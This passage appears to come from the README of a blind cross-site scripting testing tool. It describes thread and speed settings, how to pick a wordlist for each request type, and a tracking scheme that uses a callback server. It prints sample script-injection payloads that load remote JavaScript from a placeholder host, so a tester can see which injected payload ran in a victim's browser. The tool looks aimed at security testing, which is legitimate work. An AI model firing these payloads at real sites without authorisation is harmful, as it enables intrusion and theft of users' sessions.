 **Performance:**
- 1 thread (default): ~20 payloads/min (stealthy, safe)
- 5 threads: ~100 payloads/min (balanced, recommended)
- 10 threads (max): ~200 payloads/min (fast, aggressive)

**Note:** Maximum 10 threads enforced to prevent system resource exhaustion. Attempting more will auto-cap at 10 with a warning.

### Choosing the Right Wordlist

| Request Type | Content-Type | Wordlist to Use |
|-------------|--------------|-----------------|
| GET parameter | N/A | `url_payloads.txt` |
| POST form | `application/x-www-form-urlencoded` | `www_input_payloads.txt` |
| POST JSON | `application/json` | `json_input_payloads.txt` |
| POST XML/other | any | `www_input_payloads.txt` |

---

## 💡 How It Works

### Payload Tracking System

1. **Generation Phase:**
   ```python
   # blind_xss_generate.py generates:
   <script src="https://your-server.com/x.js?id=1"></script>   # Payload 1
   <script src="https://your-server.com/x.js?id=2"></script>   # Payload 2
   <script src="https://your-server.com/x.js?id=3"></script>   # Payload 3
   ...
   ```

2. **Testing Phase:**
   ```
   auto_xss_test.py injects payload 123 → Target reflects it → Browser executes it
   → Browser requests: https://your-server.com/x.js?id=123
   ```

3. **Callback Phase:**
   ```
   callback_server.py receives: GET /x.js?id=123
   → Reads line 123 from wordlist
   → Displays: "Payload ID 123 worked! <script src=...>"
   ```

### Detection Methods

**auto_xss_test.py** uses 4 detection methods:

1. **HTML Reflection** - Payload found in HTML source (not escaped)
   ```
   ✓ Reliable indicator of XSS
   ```
